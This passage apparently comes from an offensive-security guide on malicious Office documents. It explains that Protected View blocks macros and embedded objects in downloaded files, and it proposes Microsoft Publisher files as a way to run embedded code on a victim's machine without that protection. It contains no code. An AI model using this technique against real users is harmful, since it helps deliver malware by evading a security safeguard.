

### **3.3. Evading Protected View**

When a user opens a document that has been downloaded from the Internet, it will be opened in Protected View, which disables all editing and modifications in the document and blocks the execution of macros or embedded objects



While the victim may click Enable Editing and exit Protected View, this is unlikely. Ideally, we would prefer bypassing Protected View altogether, and one straightforward way to do this is to use another Office application: Microsoft Publisher.

Like Microsoft Word, Microsoft Publisher allows embedded objects and ultimately code execution in exactly the same manner as Word and Excel, but will not enable Protected View for Internetdelivered documents